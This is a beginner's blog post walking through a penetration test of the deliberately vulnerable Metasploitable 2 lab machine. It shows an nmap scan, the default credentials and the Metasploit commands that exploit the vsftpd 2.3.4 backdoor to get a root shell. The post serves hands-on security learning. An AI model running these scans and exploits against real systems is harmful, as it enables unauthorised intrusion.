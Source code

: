 ```yaml
---
layout: post
title: Exploiting FTP in Metasploitable 2
---
```


## Metasploitable 2

![Metasploitable2]({{site.url }}/imgs/metasploitable1/meta0.png)


Metasploitable 2 is a deliberately vulnerable linux machine that is meant for beginners to practice their penetration testing skills. The challenges included in metasploitable are straightforward but also provide you with the basis of hacking. 

I've decided to start a metasploitable series, where I write short and explanatory articles while exploiting vulnerabilities in the vulnerable machine. The short articles are meat to help beginners to understand the concepts without taking in too much information in a short period of time.

### Getting started

I'm going to assume that you have your attack machine(Kai Linux) and target (metasploitable2) set up in your hypervisor and ready to go. I am using VirtualBox.

The first thing that I did was to log in to the metasploitable machine using default credentials(msfadmin:msfadmin) and discover the IP address of the machine. I need this IP address to be able to scan the open ports on the metasploitable machine. To get the IP:

```
ifconfig
```
![Getting target IP]({{ site.url }}/imgs/metasploitable1/meta1.png)

### Scanning

The next thing that I did was to scan the target machine from my attack machine. Scanning is the process of discovering the open ports on the target machine and the services running on those ports. This helps to narrow down the attack pattern against that machine. I used nmap for scanning:

```
nmap -sV -sS -p- -A 192.168.100.13
```
Let's break the options down

- sV: probe open ports to determine service and version information
- sS: TCP SYN connect
- -p-: scan all ports
- A: enable OS detection, version detection, script scanning and traceroute

![Scanning using nmap]({{ site.url }}/imgs/metasploitable1/meta2.png)

The image above shows the results from the scanning. After you do the scan, you'll notice that the target machine has a considerable number of open ports, which means there are various attack vectors in this machine.

FTP, on port 21, is on top of the list from the scan results. It also shows the version being used, vsftpd 2.3.4. This gave me an idea on enumeration, and I went on to search if there are any known vulnerabilities on that version. 

![Some googling]({{ site.url }}/imgs/metasploitable1/meta3.png)

### Exploitation

This version of ftp has a malicious backdoor installed on it that grants the attacker root access into the target machine. After reading about the exploit, I went and searched for it in the exploit database.

```
msfconsole
search vsftpd 2.3.4
```
The exploit is available in the database, so I can use the exploit to gain access into the target machine.

![Backdoor exploit in exploit database]({{ site.url }}/imgs/site/images/metasploitable1/meta4.png)

```
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 192.168.100.13
exploit
```

After running the exploit, we get a shell inside the target machine. Running whoami shows that I am running as root, hence we have achieved our goal.

![Gaining access!]({{ site.url }}/imgs/metasploitable1/meta5.png)

And that is how we do a simple ftp exploit on Metasploitable 2. I hope that was understandable, and easy to follow through.

More to come ...